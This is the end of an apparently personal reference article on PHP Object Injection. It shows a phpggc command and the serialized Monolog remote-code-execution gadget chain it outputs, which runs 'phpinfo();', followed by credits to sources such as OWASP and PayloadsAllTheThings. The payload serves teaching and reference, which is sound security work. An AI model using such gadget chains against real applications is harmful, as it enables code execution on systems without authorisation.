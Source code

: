 Example:

```bash
$ ./phpggc monolog/rce1 'phpinfo();'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

## Thanks to

This article is composed of information found on the folowing links (+ plus some minor additions). I use this article to quick observe or demonstrate situations and as a personal reference to all the infromation needed in exploiting the PHP Object Injection Vulnerability.

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/PHP%20serialization](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/PHP%20serialization)

[https://securitycafe.ro/2015/01/05/understanding-php-object-injection/](https://securitycafe.ro/2015/01/05/understanding-php-object-injection/)

[https://www.owasp.org/index.php/PHP_Object_Injection](https://www.owasp.org/index.php/PHP_Object_Injection)

[http://location-href.com/php-object-injection/](http://location-href.com/php-object-injection/)

[https://www.ambionics.io/blog/php-generic-gadget-chains](https://www.ambionics.io/blog/php-generic-gadget-chains)

[https://github.com/ambionics/phpggc](https://github.com/ambionics/phpggc)